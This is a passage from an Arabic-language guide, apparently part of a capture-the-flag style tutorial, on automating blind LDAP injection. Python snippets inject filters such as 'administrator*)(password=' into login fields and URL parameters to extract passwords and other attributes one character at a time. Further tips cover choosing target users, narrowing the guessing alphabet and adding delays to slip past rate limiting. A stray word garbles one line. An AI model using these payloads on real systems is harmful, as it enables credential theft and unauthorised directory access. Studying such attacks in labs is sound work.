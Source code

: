 #### قائمة الأحرف للاستغلال الأعمى
إليك مجموعة الأحرف التي يمكن استخدامها في `alphabet` لتخمين القيم:
- **الحروف**: `a-z`, `A-Z`
- **الأرقام**: `0-9`
- **الرموز**: `_@{}-/()!"$%=^[]:;,.&*+`
- **مثال شامل**:
  ```
  abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_@{}-/()!"$%=^[]:;,.&*+
  ```

### 3. محاولات إضافية للأتمتة
بالإضافة إلى السكربتات أعلاه، يمكنك تجربة التعديلات التالية لتغطية سيناريوهات مختلفة:

#### أ. اختبار معايير URL
- إذا كان الموقع يستخدم معايير URL (مثل `?search=admin`):
  - عدّل سكربت اكتشاف الخصائص:
    ```python
    r = requests.get(url + '?search=*)(' + str(i) + '=*))\x00')
    ```
  - عدّل سكربت الاستغلال الأعمى:
    ```python
    r = requests.get(url + '?search=admin*)(password=' + flag + char)
    ```

#### ب. استهداف مستخدمين مختلفين
- اختبر مستخدمين محتملين (مثل `administrator`, `guest`, `user`):
  - في سكربت الاستغلال الأعمى:
    ```python
    payload = "administrator*)(password=" + flag + char
    ```

#### ج. اختبار خصائص متعددة في الاستغلال الأعمى
- إذا كنت تريد تخمين قيم خصائص أخرى (مثل `cn`, `mail`):
  ascended: **الاستغلال الأعمى**:
  - عدّل السكربت لاستهداف خاصية أخرى:
    ```python
    payload = "admin*)(cn=" + flag + char
    ```

#### د. استخدام قوائم أحرف مخصصة
- إذا كنت تعتقد أن القيمة تحتوي على أحرف معينة فقط (مثل أرقام أو حروف كبيرة):
  - عدّل `alphabet`:
    ```python
    alphabet = string.digits  # أرقام فقط
    ```
    أو:
    ```python
    alphabet = string.ascii_uppercase  # حروف كبيرة فقط
    ```

#### هـ. التعامل مع التأخيرات
- إذا كان الموقع يفرض تأخيرات (Rate Limiting):
  - أضف تأخيرًا بين الطلبات:
    ```python
    import time
    time.sleep(1)  # تأخير ثانية واحدة
    ```

---